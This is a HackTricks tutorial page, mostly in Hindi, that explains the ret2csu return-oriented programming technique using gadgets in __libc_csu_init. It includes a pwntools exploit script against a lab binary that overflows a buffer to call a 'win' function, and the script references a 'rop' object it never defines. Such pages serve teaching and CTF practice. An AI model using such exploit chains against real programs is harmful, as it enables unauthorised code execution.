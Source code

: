 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**ret2csu** एक हैकिंग तकनीक है जिसका उपयोग तब किया जाता है जब आप किसी प्रोग्राम पर नियंत्रण पाने की कोशिश कर रहे होते हैं लेकिन आपको प्रोग्राम के व्यवहार को नियंत्रित करने के लिए आमतौर पर उपयोग किए जाने वाले **gadgets** नहीं मिलते।&#x20;

जब एक प्रोग्राम कुछ विशेष पुस्तकालयों (जैसे libc) का उपयोग करता है, तो इसमें विभिन्न भागों के बीच बातचीत को प्रबंधित करने के लिए कुछ अंतर्निहित कार्य होते हैं। इन कार्यों में कुछ छिपे हुए रत्न होते हैं जो हमारे गायब gadgets के रूप में कार्य कर सकते हैं, विशेष रूप से एक जिसे `__libc_csu_init` कहा जाता है।

### The Magic Gadgets in \_\_libc\_csu\_init

`__libc_csu_init` में, दो निर्देशों के अनुक्रम (हमारे "जादुई gadgets") हैं जो विशेष रूप से ध्यान आकर्षित करते हैं:

1. पहला अनुक्रम हमें कई रजिस्टरों (rbx, rbp, r12, r13, r14, r15) में मान सेट करने की अनुमति देता है। ये ऐसे स्लॉट हैं जहाँ हम बाद में उपयोग करने के लिए नंबर या पते संग्रहीत कर सकते हैं।
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
यह गैजेट हमें इन रजिस्टरों को नियंत्रित करने की अनुमति देता है, स्टैक से मानों को पॉप करके।

2. दूसरा अनुक्रम उन मानों का उपयोग करता है जो हमने सेट किए हैं, कुछ चीजें करने के लिए:
* **विशिष्ट मानों को अन्य रजिस्टरों में स्थानांतरित करें**, जिससे वे हमारे लिए फ़ंक्शनों में पैरामीटर के रूप में उपयोग करने के लिए तैयार हो जाएं।
* **एक स्थान पर कॉल करें** जो r15 और rbx में मानों को जोड़कर और फिर rbx को 8 से गुणा करके निर्धारित किया गया है।
```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```
## उदाहरण

कल्पना कीजिए कि आप एक syscall करना चाहते हैं या `write()` जैसी किसी फ़ंक्शन को कॉल करना चाहते हैं लेकिन आपको `rdx` और `rsi` रजिस्टर में विशेष मान चाहिए। सामान्यतः, आप उन रजिस्टरों को सीधे सेट करने के लिए गैजेट्स की तलाश करेंगे, लेकिन आपको कोई नहीं मिल रहा है।

यहाँ **ret2csu** का उपयोग होता है:

1. **रजिस्टर सेट करें**: पहले जादुई गैजेट का उपयोग करें ताकि स्टैक से मानों को निकालकर rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), और r15 में डाल सकें।
2. **दूसरे गैजेट का उपयोग करें**: उन रजिस्टरों को सेट करने के बाद, आप दूसरे गैजेट का उपयोग करते हैं। यह आपको अपने चुने हुए मानों को `rdx` और `rsi` (क्रमशः r14 और r13 से) में स्थानांतरित करने की अनुमति देता है, जो फ़ंक्शन कॉल के लिए पैरामीटर तैयार करता है। इसके अलावा, `r15` और `rbx` को नियंत्रित करके, आप प्रोग्राम को उस फ़ंक्शन को कॉल करने के लिए मजबूर कर सकते हैं जो आप पता लगाते हैं और `[r15 + rbx*8]` में रखते हैं।

आपके पास [**इस तकनीक का उपयोग करते हुए एक उदाहरण और इसे यहाँ समझाते हुए**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation) है, और यह अंतिम एक्सप्लॉइट है जिसका इसने उपयोग किया:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
ध्यान दें कि पिछले एक्सप्लॉइट का उद्देश्य **`RCE`** करना नहीं है, इसका उद्देश्य केवल `win` नामक एक फ़ंक्शन को कॉल करना है (ROP चेन में stdin से `win` का पता लेते हुए और इसे r15 में स्टोर करते हुए) तीसरे तर्क के साथ जिसका मान `0xdeadbeefcafed00d` है।
{% endhint %}

### सीधे libc का उपयोग क्यों न करें?

आमतौर पर ये मामले [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/) के लिए भी संवेदनशील होते हैं, लेकिन कभी-कभी आपको उन पैरामीटर को नियंत्रित करने की आवश्यकता होती है जो सीधे libc में पाए गए गैजेट्स के साथ आसानी से नियंत्रित नहीं किए जा सकते। उदाहरण के लिए, `write()` फ़ंक्शन को तीन पैरामीटर की आवश्यकता होती है, और **इन सभी को सीधे सेट करने के लिए गैजेट्स खोजना संभव नहीं हो सकता**।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
